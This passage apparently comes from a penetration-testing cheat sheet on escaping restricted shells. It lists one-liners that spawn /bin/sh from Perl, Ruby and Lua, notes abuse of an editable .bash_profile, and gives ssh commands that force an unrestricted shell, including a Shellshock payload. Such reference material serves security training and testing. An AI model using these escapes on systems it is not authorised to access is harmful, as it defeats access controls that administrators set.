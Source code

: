 ```sh
perl -e 'exec "/bin/sh";'
```

### Ruby / irb

```ruby
exec "/bin/sh"
```

### Lua
```sh
os.execute('/bin/sh')
```

## Unrestricted Mode

Some restricted shells start
running files in an unrestricted mode
before the restricted shell is applied.
If `.bash_profile` is executed in an unrestricted mode,
and it's editable,
you'll be able to execute code and commands
as an unrestricted user.

## From The Outside

### Command Execution

Execute a command
before the remote shell is loaded.

```sh
ssh user@{{< param "war.rhost" >}} -t "/bin/sh"
```
### Profile

Start a remote shell
with an unrestricted profile.

```sh
ssh user@{{< param "war.rhost" >}} -t "bash --noprofile"
```

### Shellshock

```sh
ssh user@{{< param "war.rhost" >}} -t "(){:;}; /bin/bash"
```

## Miscellaneous

### Output Redirection
